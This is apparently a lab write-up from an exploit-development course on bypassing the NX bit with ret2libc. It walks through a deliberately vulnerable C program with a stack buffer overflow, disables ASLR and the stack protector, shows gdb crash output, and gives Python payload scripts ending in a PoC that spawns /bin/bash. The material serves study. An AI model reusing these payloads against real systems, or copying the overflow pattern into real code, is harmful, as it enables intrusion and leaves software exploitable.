










# 1. What is No Execute
- The NX bit (no-execute) is a technology used in CPUs to segregate areas of memory for use by either storage of processor instructions (code) or for storage of data, a feature normally only found in Harvard architecture processors. However, the NX bit is being increasingly used in conventional von Neumann architecture processors for security reasons.

- Return to library C (ret2libc) and return to system (ret2sys) are technique usally use to bypass the No Execution bit and is the technique I'll use in this report.
----------
# 2. NX Bypass
## 2.1 Building Up Environment

This is the source code we will use for exploit example:

```c
#include <stdio.h>
#include <unistd.h>

int overflow(){
  char buf[500];
  int userinput;
  userinput = read(0, buf, 700);
  printf("\nUser provided %d bytes.\nBuffer content is: %s\n", userinput, buf);
  return 0;
}

int main(){
  overflow();
  return 0;
}
```

Build the source code:

```bash
gcc vulnerable.c -m32 -fno-stack-protector -o vulnerable
```

Make sure, the machine has already turned off the ASLR. To turn off it:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Using **checksec** to make sure that only Stack Canary is disabled



## 2.2. Getting An Interesting Target
First up, I know the program have buffer size is 500, so let's try to make it crashing 500 buffer ``python -c 'print("A"*700)' | ./vulnerable``.



Nothing happned, so try bigger size to see length make crashing:



Opening debugger to debug the program, in here I will use the gdb-peda to debug and using peda's feature to make pattern and get the exact size the program crashed **(You can also use msf-pattern_create and msf-pattern_offset)**.





## 2.3. Getting Return Address
Making a string to determine where is the start of buffer 'A':
- `python -c "print('A'*516+'B'*4)" > input.txt`





So, **0xffffd088** is where the buffer start at. So we will make a script to spawn the buffer and last 4 byte will be the returned address which we got above.

```python
#!/usr/bin/python2
from struct import pack

payload = ''
payload += 'A'*516
payload += pack('<I', 0xffffd088) # Start of A character

print payload
open('input.txt', 'wb').write(payload)
```

Run the file in gdb and determine if the program crashed ad  **0x41414141** or not:

```bash
gdb-peda$ r < input.txt
Starting program: vulnerable < input.txt

User provided 520 bytes.
Buffer content is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41414141 ('AAAA')
ECX: 0x0
EDX: 0x1
ESI: 0xf7fa6000 --> 0x1e4d6c
EDI: 0xf7fa6000 --> 0x1e4d6c
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd290 --> 0xf7fa6000 --> 0x1e4d6c
EIP: 0xffffd088 ('A' <repeats 200 times>...)
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0xffffd088:  inc    ecx
   0xffffd089:  inc    ecx
   0xffffd08a:  inc    ecx
   0xffffd08b:  inc    ecx
[------------------------------------stack-------------------------------------]
0000| 0xffffd290 --> 0xf7fa6000 --> 0x1e4d6c
0004| 0xffffd294 --> 0xf7fa6000 --> 0x1e4d6c
0008| 0xffffd298 --> 0x0
0012| 0xffffd29c --> 0xf7ddfe46 (<__libc_start_main+262>:       add    esp,0x10)
0016| 0xffffd2a0 --> 0x1
0020| 0xffffd2a4 --> 0xffffd344 --> 0xffffd4b8 ("/home/th3knight/Desktop/learning/shellcoding/ine/DEP/vulnerable")
0024| 0xffffd2a8 --> 0xffffd34c --> 0xffffd4f8 ("SHELL=/bin/bash")
0028| 0xffffd2ac --> 0xffffd2d4 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0xffffd088 in ?? ()
```

The program crashed with **0xffffd088** with no reason. This is because of NX bit is enabled so this will kill when user tried to execute from their inputted data. Re run the debugger, breakpoint at main `br *main`, and run.

The technique of ret2libc will be:
- Buffer_size + Execution_function_address + Return_address + Arguments_address 

Quick taking address of system `print system`, exit `print exit` and arguments `find "/bin/bash"` export these address.



## 2.4 Proof of Concept (PoC)

```python
#!/usr/bin/python2

from struct import pack

payload = ''
payload += 'A'*516
payload += pack('<I', 0xf7e06000) # System_func address @@ exec_function
payload += pack('<I', 0xf7df8950) # Exit_func address @@ ret_func
payload += pack('<I', 0xf7f4d338) # Arguments address

print payload
```



Nothing happended, because there is no listener to keep and get the input, output. So we will use the cat to be that listener.
- `(./exploit.py ; cat) | ./vulnerable`



-----------------
# 3. Reference
- [https://en.wikipedia.org/wiki/NX_bit](https://en.wikipedia.org/wiki/NX_bit)
- [https://my.ine.com/CyberSecurity/courses/eb1c83e7/linux-exploit-development](https://my.ine.com/CyberSecurity/courses/eb1c83e7/linux-exploit-development)
---